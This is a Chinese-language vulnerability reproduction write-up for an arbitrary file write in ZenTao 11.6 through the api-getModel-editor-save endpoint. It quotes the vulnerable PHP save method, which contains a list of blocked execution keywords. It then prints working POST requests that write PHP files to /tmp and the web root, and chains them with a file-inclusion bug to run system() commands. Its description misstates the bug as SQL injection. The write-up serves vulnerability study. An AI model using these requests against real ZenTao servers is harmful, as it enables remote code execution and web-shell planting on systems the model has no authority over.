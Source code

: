 # 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](../../../.vuepress/public/img/zentao-1-20220313232232109.png)



## 漏洞复现



这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

查看`module/api/ediyor/moudel.php`下的`save方法`

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```



`$filePath参数和$fileContent参数` 我们是可控的



调用方法往 `/tmp`写入一个`phpinfo()`



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell.php

fileContent=<?php phpinfo();?>
```



![img](../../../.vuepress/public/img/zentao-24.png)



![img](../../../.vuepress/public/img/zentao-25.png)



在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含



```plain
/api-getModel-api-getMethod-filePath=/tmp/shell/1
```



![img](../../../.vuepress/public/img/zentao-26.png)



也可以写入网站目录中



先获取地址



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php system('find / -name ioncube.php')?>');?>
```



访问 `/api-getModel-api-getMethod-filePath=/tmp/shell/1`



![img](../../../.vuepress/public/img/zentao-27.png)



得到目录为 `/app/zentaopma/www`



请求改为



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

<a-alert type="success" message="再去访问 /api-getModel-api-getMethod-filePath=/tmp/shell/1，则会再网站目录下生成 xxx.php 文件" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/zentao-28.png)



![img](../../../.vuepress/public/img/zentao-29.png)


